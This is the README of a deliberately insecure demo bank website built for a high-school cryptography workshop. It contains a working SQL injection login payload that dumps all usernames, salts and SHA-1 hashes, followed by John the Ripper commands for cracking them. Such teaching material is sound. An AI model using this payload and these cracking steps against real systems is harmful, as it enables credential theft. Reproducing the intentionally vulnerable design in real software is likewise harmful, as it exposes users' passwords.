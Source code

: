 Anaflow Bank (Insecure Website)
-------------------------------

This website is a demonstration in a cryptography workshop at Independence 
High School and Stanford Splash, run by Andy Chen and Nick Hirning. It is 
meant to serve as a simplified model of how password hashing and SQL injection 
can work. The code creates a dummy website "Anaflow Bank" whose data can be 
compromised with a SQL injection.


Get Started
-----------

As a prerequisite, make sure you have web.py (version 0.3) and SQLite 
capabilities. Begin by creating the database of user accounts:
```
sqlite3 BankAccount.db < create_accounts.sql
```
Then, to run the website, execute:
```
python anaflow_bank.py [optional port number, default is 8080]
```

Demonstration Overview
----------------------

In the demonstration, we perform an SQL injection via the login form. We set
the username to be:
```
' OR 1=1 UNION SELECT GROUP_CONCAT(Username || ' : ' || PasswordHash || ' : ' || Salt, '  ||  ') AS Amount FROM BankAccount WHERE '1' = '1
```
(The password can be any string.) This allows us to see all of the users' 
salts and password hashes, which are SHA-1 for this purpose. We then use 
John the Ripper (JTR) to expose any weak passwords. Despite each account 
having its own salt, JTR can crack salted SHA-1 hashes in a single file.
To do so, create a blank password file, and format each username/salt/hash 
combination on each line (without the brackets).

In the MacOS version of John 1.7.9-jumbo-7 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Mac-OS-X), 
format each line of the password file as:
```
[username]:$SHA1p$[salt]$[hash]
```
For example:
```
admin:$SHA1p$*Utf&+s5$317fe16a5f409e871b21c3460a75dab8dc906767
```
Then, run JTR to recover some of the passwords. 
```
./john --format=sha1-gen [password file]
./john --show [password file] 
```

For the Windows version of John 1.7.9-jumbo-7-Win-32 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Windows).
format each line of the password file as:
```
[username]:$dynamic_25$[hash]$[salt]
```
For example:
```
admin:$dynamic_25$317fe16a5f409e871b21c3460a75dab8dc906767$*Utf&+s5
```
Then, run JTR to recover some of the passwords. 
```
john [password file]
john --show [password file] 
```

Disclaimer
----------

Do NOT use this code for any application meant to be cryptographically secure.
We intentionally left this system vulnerable to attack. Major flaws include:

- SQL injection (an adversary can display the table of user accounts)
- Malfunctioning SQL queries with certain usernames (generalization of the 
	first flaw)
- SHA-1 hashing instead of slow hashing, such as bcrypt (though for large 
	user databases, this could require client-side hashing. However, an 
	attacker who has stolen the table of users and password hashes can then 
	send a hash directly to the server and successfully login.)
- Lack of security checks, mainly in the Python web.py backend
